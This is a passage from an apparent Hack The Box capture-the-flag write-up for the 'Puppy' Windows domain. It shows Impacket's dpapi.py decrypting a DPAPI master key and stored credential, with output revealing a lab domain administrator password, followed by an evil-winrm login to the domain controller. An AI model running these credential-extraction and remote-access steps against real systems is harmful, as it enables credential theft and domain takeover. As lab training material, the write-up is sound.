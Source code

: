 **Command Explanation:**
- `dpapi.py masterkey`: Decrypts DPAPI master key files
- `-file mkey`: Master key file to decrypt
- `-sid`: User's Security Identifier
- `-password`: User's password for decryption

### DPAPI Credential Decryption

Now we can use the decrypted master key to decrypt the stored credentials:

```bash
dpapi.py credential -file cred2 -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```

**Results:**
```bash
Impacket v0.13.0.dev0+20250909.125012.082dca34 - Copyright Fortra, LLC and its affiliated companies

[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description :
Unknown     :
Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!
```

**Key Finding:** We successfully extract domain administrator credentials:
- **Username:** `steph.cooper_adm`
- **Password:** `FivethChipOnItsWay2025!`

![DPAPI Decryption Process](file-20250806141033415.png)

![Credential Extraction Results](file-20250806141332807.png)

---

## Domain Admin Access

### Final Authentication

We can now use the extracted administrator credentials to access the domain controller:

![Domain Admin Login](file-20250806141552689.png)

```bash
evil-winrm -i $IP -u steph.cooper_adm -p FivethChipOnItsWay2025!
```

**Command Explanation:**
- `evil-winrm`: WinRM client for remote access
- `-i`: Target IP address
- `-u`: Username
- `-p`: Password
